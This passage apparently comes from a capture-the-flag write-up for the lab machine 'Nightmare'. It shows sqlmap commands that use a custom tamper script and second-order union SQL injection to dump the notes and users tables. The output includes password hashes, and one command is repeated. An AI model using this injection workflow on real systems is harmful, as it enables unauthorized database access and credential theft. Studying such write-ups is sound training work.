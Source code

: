 
That’s enough information to move on in the case of nightmare, but if we
wanted to look at the notes table, we could do it with a bit more precision.

First, we can dump the `notes` table (from the `notes` database):

    
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D notes -T notes --no-cast
    ...
    [06:50:27] [INFO] fetching columns for table 'notes' in database 'notes'
    [06:50:28] [WARNING] reflective value(s) found and filtering out
    [06:50:28] [INFO] used SQL query returns 4 entries
    [06:50:28] [INFO] retrieved: "id","int(4) unsigned"
    [06:50:29] [INFO] retrieved: "user","int(4) unsigned"
    [06:50:30] [INFO] retrieved: "title","varchar(255)"
    [06:50:30] [INFO] retrieved: "text","text"
    [06:50:30] [INFO] fetching entries for table 'notes' in database 'notes'
    [06:50:31] [INFO] used SQL query returns 1 entries
    Database: notes
    Table: notes
    [1 entry]
    +----+------------------------+-----------------------------------------------------------------+--------+
    | id | text                   | title                                                           | user   |
    +----+------------------------+-----------------------------------------------------------------+--------+
    | 1  | What a wonderful note! | This is my first note No one else than me (admin) should see it | 1      |
    +----+------------------------+-----------------------------------------------------------------+--------+
    ...
    

Next, we’ll look at the users table, and we’ll try to defeat username that
start with ‘aaaaa’ from our search, since we added those, with the `--where`
flag:

    
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D notes -T users --where "username NOT LIKE 'aaaaa%'" --no-cast
    

Next, we’ll look at the users table, and we’ll try to defeat username that
start with ‘aaaaa’ from our search, since we added those, with the `--where`
flag:

    
    
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D notes -T users --where "username NOT LIKE 'aaaaa%'" --no-cast
    ...
    [06:54:50] [INFO] fetching columns for table 'users' in database 'notes'
    [06:54:50] [INFO] used SQL query returns 3 entries
    [06:54:50] [INFO] resumed: "id","int(4) unsigned"
    [06:54:50] [INFO] resumed: "username","varchar(255)"
    [06:54:50] [INFO] resumed: "password","varchar(32)"
    [06:54:50] [INFO] fetching entries for table 'users' in database 'notes'
    [06:54:51] [WARNING] reflective value(s) found and filtering out
    [06:54:51] [INFO] used SQL query returns 2 entries
    [06:54:52] [INFO] retrieved: "1","ee10c315eba2c75b403ea99136f5b48d","admin"
    [06:54:53] [INFO] retrieved: "67","c11200b1c60d38eded1effbca7653675","delfy"
    [06:54:53] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n